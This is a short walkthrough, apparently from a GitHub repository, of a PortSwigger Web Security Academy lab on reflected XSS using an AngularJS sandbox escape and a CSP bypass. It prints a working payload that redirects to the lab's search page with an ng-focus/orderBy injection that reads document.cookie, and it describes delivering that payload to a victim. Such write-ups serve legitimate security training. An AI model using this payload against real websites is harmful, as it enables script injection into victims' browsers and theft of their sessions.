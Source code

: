 ## Welcome, my friend. Today we will start the [27. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/865ee715-c5cf-474e-ae69-9200a7b8822a)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/7ab4ead7-dd59-412a-9b43-6e8620483d9a)

### Let's enter html code in body:

```
<h1>hi</h1> <h5>0xT0R</h5>
```

![image](https://github.com/user-attachments/assets/95782d63-e034-4e8a-bbc6-87c286402020)

### Enter ```View exploit```:


![image](https://github.com/user-attachments/assets/a3ca2bd9-fdbf-41d0-9f4f-ffc45e657810)


### Let's enter ```javascript``` code in body:

```
<script>
location='https://0ac400d8031a89ac8368053d001200cb.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

![image](https://github.com/user-attachments/assets/7f09cbf4-04a4-4bff-a23b-c9af23143b98)

### Let's enter on ```store``` then deliver exploit to victim

![image](https://github.com/user-attachments/assets/7140e423-34ae-4cdf-8e44-2406b1924ede)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/284ebebd-da4f-4c2a-bcb2-04eb0ef8a878" >
</p>
